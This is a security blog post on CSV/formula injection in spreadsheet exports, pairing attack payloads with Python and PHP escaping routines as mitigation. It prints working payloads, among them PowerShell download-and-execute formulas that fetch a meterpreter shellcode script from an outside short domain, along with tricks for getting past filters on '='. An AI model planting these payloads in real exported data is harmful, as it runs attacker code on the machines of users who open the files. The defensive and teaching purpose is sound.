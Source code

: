 # CSV Injection Revisited - Making Things More Dangerous(and fun)
In this post, I will discuss several methods and remediation steps that can be used to help escape and mitigate [CSV](https://support.office.com/en-gb/article/Import-or-export-text-txt-or-csv-files-5250ac4c-663c-47ce-937b-339e391393ba) (Comma separated values) injection type attacks. 

For those of you who may not know what CSV injection is or how it occurs, here is a short explanation, followed by remediation steps and points of interest.
######Introduction
CSV Injection is an attack technique first discovered by Context Information Security in [2014](http://www.contextis.com/resources/blog/comma-separated-vulnerabilities/). Usually, an attacker can exploit this functionality by inserting arbitrary characters into forms that are exportable(be this via analytics, contacts or other functionality). Consequently enabling said attacker to formulate an attack payload that is executed when said CSV file is downloaded. 

The attack scenario for this is purely targeting the user(s) who download the CSV file, naturally this attack is usually disregarded as a non-issue however websites should still be aware of information that they are exporting can be potentially harmful to users.

The most common payload seen and used tends to look similar to that shown below:

    =cmd|' /C calc'!A0

This string in its core, is essentially telling the program that it is opened with that it would like to execute `cmd.exe` with the following flags `/C calc` which in turn will launch `calc.exe` from the command line. 

Naturally this can be further exploited to craft more complex payloads, my good friend [xpnsec](https://twitter.com/_xpn_) [demonstrated](https://xpnsec.tumblr.com/post/133298850231/from-csv-to-meterpreter) late last year how it is possible to craft a metasploit payload via this attack technique. To formulate a [meterpreter](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) payload on the victim, I adapted his payload string to make it shorter and easier to inject as a result, the following payload can be used:

    =cmd|' /C powershell IEX(wget 0r.pe/p)'!A0

Where in this case the shortened domain `0r.pe` is used to deliver the payload ([Invoke-Shellcode](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1)) which is a function of [Powersploit](https://github.com/PowerShellMafia/PowerSploit) to enable spawning of meterpreter shells. These payloads are all fine and well however more often than not I've been seeing the `=` character being filtered out. 

However using personal Microsoft Excel knowledge, it is also possible to intact the payload using other character combinations such as  `@`, `+` or `-` in a variety of different combinations. My current payload of choice for exploiting this as a proof of concept is.

    @SUM(1+1)*cmd|' /C calc'!A0 

OR for quantifying the danger:
     
    @SUM(1+1)*cmd|' /C powershell IEX(wget 0r.pe/p)'!A0

Having said all this and talked about the various payloads, there are mitigation steps that can be taken to more or less remove the threat of unwanted powershell scripts executing and infesting a user's system with shells. 

######Mitigation Steps
The recommended steps to remediate this issue described above would be to ensure that forms that can be exported contain only alpha-numeric characters and cannot be modified to add arbitrary characters. 

It should also be considered that all user input be not trusted and as a result any output should be encoded. The output from this functionality should be assumed as text and not formulae thus steps could be taken to easily designate it as such by placing quotes around the text or applying escape features as described and demonstrated below.

The issue with the CSV injection vectors discussed above isn't actually to do with the `@` character, or `=`, `+`, `-`. The problem lies with the pipe (`|`) character, which Excel and other applications interpret to execute {arbitrary} commands and launch windows binaries from these payload vectors. From reading about attacks and researching into possible mitigation techniques, I've found that the best workaround is to escape the pipe character in this attack scenario is to prepend a `\` before the pipe.This is due to excel and other programs looking for an executable named `cmd.exe` or `powershell.exe` however when adding a `\` into the path will prevent the exe from launching hence escaping and fixing this particular issue.

Additionally I have also written a python script to escape CSV files which can be seen below, it's a quick and dirty proof of concept however can be adapted easily:

    def escape(payload):
         if payload[0] in ('@','+','-', '=', '|'):
                 payload = payload.replace("|", "\|")
                 payload = "'" + payload + "'"
         return payload

    # An example of payload string
    payload = "@cmd|' /C calc'!A0"
    print "The Unescaped version is: " +  payload
    print "When passed though escape function the value is: " + escape(payload)

From the code above it can be seen that if a payload string contains any of the blacklisted characters the attack is escaped, this is demonstrated in the output from the script:

    root@zsec:# python escape_csv.py
    The Unescaped version is: "@cmd|' /C calc'!A0"
    When passed though escape function the value is: '@cmd\|' /C calc'!A0'

Notice from the output it can be seen that the escaped version has a set of `'` around the user string and the pipe character has also been escaped. It should be noted that the issues described above are only one type of CSV injection attack, this mitigation does not cover information theft attacks that can be carried out using same technique but different payloads. 

**Update**: *Additionally I have re-wrote the mitigation in PHP, again it is quick and dirty, it is likely that there are better ways to code this but here be monsters:*

      public static function escape_csv( $payload ) {
		$triggers = array( '=', '+', '-', '@', '|' );

		if ( in_array( mb_substr( $payload, 0, 1 ), $triggers, true ) ) {
			$payload = "'" . $payload . "'";
		}

		return $payload;
	}

I hope that this post has given some of you a greater insight into how CSV injection works and how to better mitigate the issue. If you want more information feel free to [tweet me](https://twitter.com/ZephrFish)


